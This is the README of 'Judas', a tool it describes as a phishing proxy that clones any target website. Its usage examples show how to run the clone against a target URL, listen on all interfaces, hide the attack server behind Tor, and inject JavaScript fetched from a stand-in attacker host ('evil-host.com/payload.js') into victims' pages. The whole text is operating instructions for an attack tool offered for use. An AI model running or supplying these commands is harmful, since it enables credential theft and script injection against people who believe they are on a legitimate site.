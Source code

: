 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Usage
-----
The target ```--target``` flag is required.
By default, Judas requires a path to a SSL certificate (```--cert```) and a SSL private key (```--private-key```).
If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./proxy --target https://target-url.com --cert server.crt --private-key server.key
```

```
./proxy --target https://target-url.com --insecure
```

It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./proxy --target https://torwebsite.onion --proxy localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./proxy --target https://target-url.com --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./proxy --target https://target-url.com --inject-js https://evil-host.com/payload.js
```
